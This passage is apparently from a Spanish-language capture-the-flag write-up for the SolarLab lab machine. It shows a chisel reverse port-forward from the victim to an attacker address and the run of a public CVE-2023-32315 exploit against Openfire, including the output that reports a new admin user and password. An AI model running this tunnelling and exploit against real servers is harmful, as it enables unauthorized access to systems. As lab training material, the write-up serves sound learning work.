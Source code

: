 # Pivoting a `openfire`
Este servicio utiliza por defecto el puerto 9090.
![Write-up Image](images/SolarLab_6.png)

En la máquina víctima podemos ver que está abierto
![Write-up Image](images/SolarLab_7.png)

Ahora con chisel hacemos un reverse port forwarding.

```shell
➜  ~ /usr/share/chisel server --reverse -p 1234
```

```powershell
PS C:\Windows\Temp\work> .\chisel client 10.10.14.71:1234 R:9090:127.0.0.1:9090
```

Al final utilicé este [RCE](https://github.com/miko550/CVE-2023-32315)
Primero creamos el usuario.
```shell
➜  CVE-2023-32315 git:(main) python3 CVE-2023-32315.py -t http://127.0.0.1:9090
....
User added successfully: url: http://127.0.0.1:9090 username: l7be2x password: 3puzku
```

![Write-up Image](images/SolarLab_1.png)
